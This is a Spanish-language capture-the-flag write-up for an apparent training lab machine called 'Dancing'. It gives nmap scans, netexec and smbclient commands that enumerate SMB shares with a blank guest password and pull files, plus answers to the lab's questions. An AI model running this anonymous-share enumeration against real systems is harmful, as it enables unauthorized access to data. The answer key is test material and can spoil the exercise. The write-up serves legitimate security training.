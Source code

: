[[SMB]] 
[[Anonymous]]

```java
IP atacante: 10.10.16.133
IP victima:  10.129.1.12
```

`$nmap -p- -Pn -n --min-rate 5000 10.129.1.12 -oG puertos`
```java
PORT      STATE    SERVICE
135/tcp   open     msrpc
139/tcp   open     netbios-ssn
445/tcp   open     microsoft-ds
5985/tcp  open     wsman
6542/tcp  filtered unknown
9742/tcp  filtered unknown
12540/tcp filtered unknown
18153/tcp filtered unknown
22029/tcp filtered unknown
22036/tcp filtered unknown
30641/tcp filtered unknown
41398/tcp filtered unknown
42756/tcp filtered unknown
47001/tcp open     winrm
47508/tcp filtered unknown
48060/tcp filtered unknown
49664/tcp open     unknown
49665/tcp open     unknown
49666/tcp open     unknown
49667/tcp open     unknown
49668/tcp open     unknown
49669/tcp open     unknown
50978/tcp filtered unknown
53707/tcp filtered unknown
54597/tcp filtered unknown
56806/tcp filtered unknown
62649/tcp filtered unknown
```

Obtenemos muchos filtrados, nos limitamos a los abiertos:

`$nmap -p- --open -Pn -n --min-rate 5000 10.129.1.12 -oG OpenPorts`

Aún así en estos casos es bueno usar un script para copiar al portapapeles los puertos y evitar posibles errores:
```java
$bash tools/listPort.sh OpenPorts 
[+] Puertos copiados
```

Así es como obtenemos más fácil este comando:
`sudo nmap -p135,139,445,5985,47001,49664,49665,49666,49667,49668,49669 -sSCV -v -A 10.129.1.12`
```java
PORT      STATE SERVICE       VERSION
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds?
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
47001/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49664/tcp open  msrpc         Microsoft Windows RPC
49665/tcp open  msrpc         Microsoft Windows RPC
49666/tcp open  msrpc         Microsoft Windows RPC
49667/tcp open  msrpc         Microsoft Windows RPC
49668/tcp open  msrpc         Microsoft Windows RPC
49669/tcp open  msrpc         Microsoft Windows RPC
```

`$nxc smb 10.129.1.12 -u 'guest' -p ''`
```java
SMB         10.129.1.12     445    DANCING          [*] Windows 10 / Server 2019 Build 17763 x64 (name:DANCING) (domain:Dancing) (signing:False) (SMBv1:False)
SMB         10.129.1.12     445    DANCING          [+] Dancing\guest: 
```

Nos atrevemos:
`$nxc smb 10.129.1.12 -u 'guest' -p '' --shares`
```java
...445    DANCING          [*] Windows 10 / Server 2019 ...
...
...445    DANCING          [*] Enumerated shares
...445    DANCING          Share           Permissions     Remark
...445    DANCING          -----           -----------     ------
...445    DANCING          ADMIN$                          Remote Admin
...445    DANCING          C$                              Default share
...445    DANCING          IPC$            READ            Remote IPC
...445    DANCING          WorkShares      READ,WRITE
```

Otra forma de listar, nadamás porque se pide en las preguntas, es con:
`smbclient -U 'guest' -L //10.129.1.12`
```java
	Sharename       Type      Comment
	---------       ----      -------
	ADMIN$          Disk      Remote Admin
	C$              Disk      Default share
	IPC$            IPC       Remote IPC
	WorkShares      Disk      

```

Ahora sí usamos `smbclient`
`$smbclient -U 'guest' //10.129.1.12/WorkShares`
```java
Password for [WORKGROUP\guest]:
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Thu Mar 20 23:16:56 2025
  ..                                  D        0  Thu Mar 20 23:16:56 2025
  Amy.J                               D        0  Mon Mar 29 03:08:24 2021
  James.P                             D        0  Thu Jun  3 03:38:03 2021
```

Si buscamos en `\Amy.J\` obtenemos el archivo `worknotes.txt`, el cual adelanto que dice esto:
```java
- start apache server on the linux machine
- secure the ftp server
- setup winrm on dancing 
```
Y si buscamos en `\James.P\` obtenemos `flag.txt`

Preguntas:
1. ¿Qué significa el acrónimo de 3 letras SMB?
	Server Message Block
2. ¿Qué puerto usa SMB para operar?
	445
3. ¿Cuál es el nombre del servicio del puerto 445 que apareció en nuestro análisis de Nmap?
	microsoft-ds
4. ¿Cuál es la bandera o switch que podemos usar con la utilidad smbclient para listar los recursos compartidos disponibles en Dancing?
	-L
5. ¿Cuántos recursos compartidos hay en Dancing?
	4
6. ¿Cómo se llama el recurso compartido al que finalmente podemos acceder con una contraseña en blanco?
	WorkShares
7. ¿Qué comando podemos usar dentro del shell de SMB para descargar los archivos que encontramos?
	get